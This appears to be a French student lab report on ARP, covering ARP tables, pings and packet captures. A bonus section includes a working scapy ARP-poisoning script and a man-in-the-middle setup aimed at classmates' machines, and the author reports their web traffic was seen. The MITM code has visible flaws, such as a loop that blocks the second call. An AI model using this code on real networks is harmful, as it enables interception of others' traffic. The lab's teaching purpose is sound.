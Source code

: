 # TP3 : 32°13'34"N 95°03'27"W

☀️ Avant de continuer...
```
> ip a
link/ether b8:1e:a4:6c:56:97 brd ff:ff:ff:ff:ff:ff
```
☀️ Affichez votre table ARP

```
arp -a
? (10.33.65.63) at 44:af:28:c3:6a:9f [ether] on wlp3s0
_gateway (10.33.79.254) at 7c:5a:1c:d3:d8:76 [ether] on wlp3s0
```

☀️ Déterminez l'adresse MAC de la passerelle du réseau de l'école

```
arp -a
? (10.33.65.63) at 44:af:28:c3:6a:9f [ether] on wlp3s0
```

☀️ Supprimez la ligne qui concerne la passerelle

```
> sudo arp -d 10.33.79.254
[sudo] password for effect: 
SIOCDARP(dontpub): Network is unreachable
```

☀️ Prouvez que vous avez supprimé la ligne dans la table ARP

```
> arp -a
(elle est vide)
```

☀️ Wireshark

La capture -> `arp1.pcapng`

# II. ARP dans un réseau local

### 1. Basics

☀️ Déterminer

Adresse IP : `192.168.11.211/24`

Adresse MAC : `b8:1e:a4:6c:56:97`

☀️ DIY

nouvelle adresse IP : `192.168.6.0/24`

```
> ip a
2: wlp3s0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default qlen 1000
    link/ether b8:1e:a4:6c:56:97 brd ff:ff:ff:ff:ff:ff
    inet 192.168.6.0/24 scope global wlp3s0
       valid_lft forever preferred_lft forever
    inet6 2a02:8440:6440:373b:99b8:5e2f:9265:4c53/64 scope global temporary dynamic 
       valid_lft 6894sec preferred_lft 6894sec
    inet6 2a02:8440:6440:373b:a671:31ee:6e09:f879/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 6894sec preferred_lft 6894sec
    inet6 fe80::aead:b484:22e8:76d1/64 scope link noprefixroute 
       valid_lft forever preferred_lft forever
```

☀️ Pingz !

```
> ping 192.168.11.7
PING 192.168.11.7 (192.168.11.7) 56(84) bytes of data.
64 bytes from 192.168.11.7: icmp_seq=1 ttl=128 time=172 ms
64 bytes from 192.168.11.7: icmp_seq=2 ttl=128 time=5.49 ms
64 bytes from 192.168.11.7: icmp_seq=3 ttl=128 time=10.1 ms
64 bytes from 192.168.11.7: icmp_seq=4 ttl=128 time=11.4 ms
```

```
> ping 8.8.8.8
PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=1 ttl=112 time=106 ms
64 bytes from 8.8.8.8: icmp_seq=2 ttl=112 time=150 ms
64 bytes from 8.8.8.8: icmp_seq=3 ttl=112 time=69.4 ms
64 bytes from 8.8.8.8: icmp_seq=4 ttl=112 time=91.7 ms
```

### 2. ARP

☀️ Affichez votre table ARP !

```
> arp -a
? (192.168.11.7) at 34:c9:3d:22:97:2d [ether] on wlp3s0
? (192.168.11.30) at 14:5a:fc:7f:13:93 [ether] on wlp3s0
? (192.168.11.32) at 34:c9:3d:22:97:2d [ether] on wlp3s0
_gateway (192.168.11.46) at 96:24:c9:47:ee:dc [ether] on wlp3s0
? (192.168.11.47) at 58:cd:c9:60:e5:fb [ether] on wlp3s0
```

```
> arp -a
(toute vide)
```

☀️ Capture arp2.pcap

La capture -> `arp2.pcapng`

### 3. Bonus : ARP poisoning

(Je suis la victime)

⭐ Empoisonner la table ARP de l'un des membres de votre réseau

Avec le script ci dessous l'attaquant à empoisonner les informations de ma table ARP. L'IP
qui est censé être celle du routeur est donc la sienne :

```
> ip n s
172.20.10.4 dev wlp3s0 lladdr 90:e8:68:15:ac:43 STALE 
172.20.10.1 dev wlp3s0 lladdr 90:e8:68:15:ac:43 REACHABLE 
fe80::60d0:39ff:fef1:3f64 dev wlp3s0 lladdr 62:d0:39:f1:3f:64 router STALE 
2a0d:e487:132f:e506:f40d:223a:e036:824e dev wlp3s0 lladdr 62:d0:39:f1:3f:64 router STALE 
```

```py
from scapy.all import ARP, Ether, sendp, conf, getmacbyip

def arp_poison(victim_ip, victim_mac, router_ip):
    # Get your own MAC address (attacker's MAC)
    attacker_mac = "b8:1e:a4:6c:56:97"
    
    # Create an Ethernet frame with the destination MAC as the victim's MAC
    ethernet = Ether(dst=victim_mac)
    
    # Create an ARP response saying that your MAC address (attacker_mac) is the router (router_ip)
    arp_response = ARP(pdst=victim_ip, hwdst=victim_mac, psrc=router_ip, hwsrc=attacker_mac, op='is-at')
    
    # Combine the Ethernet frame and the ARP response
    packet = ethernet / arp_response

    # Send the ARP response packet in a loop to keep poisoning the victim's ARP cache
    while True:
        sendp(packet, verbose=0)
```

⭐ Mettre en place un MITM

```py
target_ip = "192.168.11.7"  # IP of the victim
target_mac = "34-C9-3D-22-97-2D"  # MAC of the victim
spoof_ip = "192.168.11.46"  # IP you want to spoof (usually the gateway)

target_ip2 = "192.168.11.46"  # IP of the victim
target_mac2 = "96-24-c9-47-ee-dc"  # MAC of the victim
spoof_ip2 = "192.168.11.46"  # IP you want to spoof (usually the gateway)

arp_poison(target_ip, target_mac, spoof_ip)
arp_poison(target_ip2, target_mac2, spoof_ip2)
```

Il a pu dans ce cas là récupérer et voir mes requêtes vers les différents site web que je consultais.

## *Ecrit par eff4ctt*